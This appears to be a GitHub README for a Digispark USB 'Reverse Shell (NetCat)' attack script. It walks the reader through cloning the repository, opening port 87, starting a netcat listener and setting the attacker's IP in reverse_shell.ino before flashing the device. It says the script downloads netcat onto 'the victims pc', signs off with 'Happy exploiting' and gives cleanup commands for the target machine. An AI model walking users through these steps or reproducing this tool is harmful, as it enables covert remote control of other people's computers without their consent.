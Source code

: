 ### Note the link in the script to download netcat on the victims pc will expire



## How to use:

`git clone https://github.com/Samuel20354/Digispark_scripts.git`


`cd Digispark_scripts/Reverse Shell (NetCat)`


`sudo ufw allow 87`


`nc -lvnp 87`


Change the IP on line 17 to your local IP in `reverse_shell.ino` file, then upload to your digispark. Done! Happy exploiting.

## How to remove:

Go to `C:\` and use the command `rmdir /S /Q win/`


Then reboot the target's compueter

Done!
